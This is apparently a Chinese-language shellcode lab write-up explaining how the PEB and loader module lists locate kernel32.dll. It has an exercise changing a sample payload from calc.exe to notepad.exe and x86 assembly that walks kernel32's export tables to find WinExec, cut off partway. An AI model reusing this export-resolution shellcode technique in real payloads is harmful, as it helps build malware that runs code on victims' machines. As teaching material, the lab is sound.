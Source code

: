 InMemoryOrderModuleList字段是一个指针，指向LDR_DATA_TABLE_ENTRY 结构体上的LIST_ENTRY字段。但是它不是指向LDR_DATA_TABLE_ENTRY 起始位置的指针，而是指向这个结构的InMemoryOrderLinks字段。Flink和Blink指向LIST_ENTRY结构体的指针。InInitializationOrderModuleList按照顺序保存进程加载的模块基址,其中第一个始终为ntdll.dll,第二个视系统的不同可能保存有Kernel32.dll或KernelBase.dll的信息。不管Kernel32.dll或KernelBase.dll都导出有我们需要的函数GetprocAddress和LoadLibraryEx，而LoadLibrary只在Kernel32.dll导出。

如果想要获取到函数地址，那么它的DLL必须已经加载到内存中了，如果不在，就要通过函数LoadLibrary将目标DLL加载到内存中。函数GetProcAddress可得到得到其他函数的地址。也就是说，只要得到了函数LoadLibrary和GetProcAddress，就可以得到任何系统函数的地址了。

# 四 修改shellcode功能为运行记事本程序notepad.exe

## 实验步骤：

1. 修改字符串“calc.exe”为“notepad.exe”，其他过程均仿照示例执行即可。

数据在栈中是逆序存储的，要得到“notepad.exe”，则需我们输入“exe.dapeton”。由于push指令不能超过8位，所以需要将字符串每4个字符分为一组，不足的地方就用0x00来代替，这样就得到了欲拼接的字符串。

修改链接中汇编代码如下：
```
_start:
; Create a new stack frame
 mov ebp, esp            ; Set base stack pointer for new stack-frame
 sub esp, 0x20           ; Decrement the stack by 32 bytes

; Find kernel32.dll base address
 xor ebx, ebx            ; EBX = 0x00000000
 mov ebx, [fs:ebx+0x30]  ; EBX = Address_of_PEB
 mov ebx, [ebx+0xC]      ; EBX = Address_of_LDR
 mov ebx, [ebx+0x1C]     ; EBX = 1st entry in InitOrderModuleList / ntdll.dll
 mov ebx, [ebx]          ; EBX = 2nd entry in InitOrderModuleList / kernelbase.dll
 mov ebx, [ebx]          ; EBX = 3rd entry in InitOrderModuleList / kernel32.dll
 mov eax, [ebx+0x8]      ; EAX = &kernel32.dll / Address of kernel32.dll
 mov [ebp-0x4], eax      ; [EBP-0x04] = &kernel32.dll

; Find the address of the WinExec Symbol within kernel32.dll
; + The hex values will change with different versions of Windows

; Find the address of the Export Table within kernel32.dll
 mov ebx, [eax+0x3C]     ; EBX = Offset NewEXEHeader  = 0xF8
 add ebx, eax            ; EBX = &NewEXEHeader        = 0xF8 + &kernel32.dll
 mov ebx, [ebx+0x78]     ; EBX = RVA ExportTable      = 0x777B0 = [&NewExeHeader + 0x78]
 add ebx, eax            ; EBX = &ExportTable         = RVA ExportTable + &kernel32.dll

; Find the address of the Name Pointer Table within kernel32.dll
; + Contains pointers to strings of function names - 4-byte/dword entries
 mov edi, [ebx+0x20]     ; EDI = RVA NamePointerTable = 0x790E0
 add edi, eax            ; EDI = &NamePointerTable    = 0x790E0 + &kernel32.dll
 mov [ebp-0x8], edi      ; save &NamePointerTable to stack frame

; Find the address of the Ordinal Table
;   - 2-byte/word entries
 mov ecx, [ebx+0x24]     ; ECX = RVA OrdinalTable     = 0x7A9E8
 add ecx, eax            ; ECX = &OrdinalTable        = 0x7A9E8 + &kernel32.dll
 mov [ebp-0xC], ecx      ; save &OrdinalTable to stack-frame

; Find the address of the Address Table
 mov edx, [ebx+0x1C]     ; EDX = RVA AddressTable     = 0x777CC
 add edx, eax            ; EDX = &AddressTable        = 0x777CC + &kernel32.dll
 mov [ebp-0x10], edx     ; save &AddressTable to stack-frame

; Find Number of Functions within the Export Table of kernel32.dll
 mov edx, [ebx+0x14]     ; EDX = Number of Functions  = 0x642
 mov [ebp-0x14], edx     ; save value of Number of Functions to stack-frame

```